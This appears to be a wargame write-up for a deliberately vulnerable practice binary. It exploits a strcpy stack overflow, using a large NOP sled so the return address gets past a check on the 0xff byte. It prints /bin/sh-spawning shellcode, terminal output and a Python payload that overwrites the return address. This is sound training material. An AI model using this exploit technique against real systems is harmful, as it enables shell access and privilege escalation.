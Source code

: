 # Vulnerability
```c
char buffer[40];
strcpy(buffer, argv[1]);
```
This program uses strcpy() function that does not check boundary so I can overwrite SFP & RET address.

The protection is:
```c
if(argv[1][47] != '\xbf')
{
  printf("stack is still your friend.\n");
  exit(0);
}

// here is changed!
if(argv[1][46] == '\xff')
{
        printf("but it's not forever\n");
        exit(0);
}
```
# Exploitation
I must use '\xbf'(stack address) but not '\xff\xbf'

If I give many 'NOP' than address will be '\xfe\xbf' so I can bypass that C code.

```bash
[troll@192 troll]$ export SHELLCODE="`python -c 'print "\x90"*100000+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"'`"[troll@192 troll]$ 
[troll@192 troll]$ vi ./getsh.c
[troll@192 troll]$ gcc -o ./getsh ./getsh.c
[troll@192 troll]$ ./getsh 
Address of /bin/sh: 0xbffe7834
[troll@192 troll]$ 
```
# Payload
```python
import os
from struct import *

filename = ""
filename = filename + "/home/troll/"
filename = filename + "vampire"

payload = ""
payload = payload + "\x90" * 40
payload = payload + "AAAA" # SFP
payload = payload + "\x34\x78\xfe\xbf" # RET

os.execv(filename, [filename, payload])
```
